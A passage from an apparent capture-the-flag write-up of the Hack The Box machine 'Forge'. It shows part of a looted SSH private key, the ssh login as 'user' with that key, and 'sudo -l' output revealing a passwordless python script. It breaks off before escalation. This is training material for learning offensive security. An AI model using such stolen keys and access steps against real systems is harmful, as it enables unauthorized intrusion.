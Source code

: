 ```
dEg5oFrreGIZysTBykyizOmFGElJv5wBEV5JDYI0nfO+8xoHbwaQ2if9GLXLBFe2f0BmXr
W/y1sxXy8nrltMVzVfCP02sbkBV9JZAAAAwQDErJZn6A+nTI+5g2LkofWK1BA0X79ccXeL
wS5q+66leUP0KZrDdow0s77QD+86dDjoq4fMRLl4yPfWOsxEkg90rvOr3Z9ga1jPCSFNAb
RVFD+gXCAOBF+afizL3fm40cHECsUifh24QqUSJ5f/xZBKu04Ypad8nH9nlkRdfOuh2jQb
nR7k4+Pryk8HqgNS3/g1/Fpd52DDziDOAIfORntwkuiQSlg63hF3vadCAV3KIVLtBONXH2
shlLupso7WoS0AAAAKdXNlckBmb3JnZQE=
-----END OPENSSH PRIVATE KEY-----
```

We created a copy of the ssh private key to our system andnamed it `id_rsa`. After that we gave relevant permissions to file to make it usable.

`chmod 600 id_rsa` 

Now we tried to log in into ssh with the same username as ftp and private key.

`ssh -i id_rsa user@forge.htb`

```
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-81-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat 23 Oct 2021 08:10:13 PM UTC

  System load:  0.01              Processes:             231
  Usage of /:   44.5% of 6.82GB   Users logged in:       1
  Memory usage: 35%               IPv4 address for eth0: 10.10.11.111
  Swap usage:   0%


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Sat Oct 23 17:42:15 2021 from 10.10.14.210
user@forge:~$ 

```
And we got in. We were looking for anything that we could execute with sudo permissions without providing a password.

```
user@forge:~$ sudo -l
Matching Defaults entries for user on forge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user may run the following commands on forge:
    (ALL : ALL) NOPASSWD: /usr/bin/python3 /opt/remote-manage.py
```
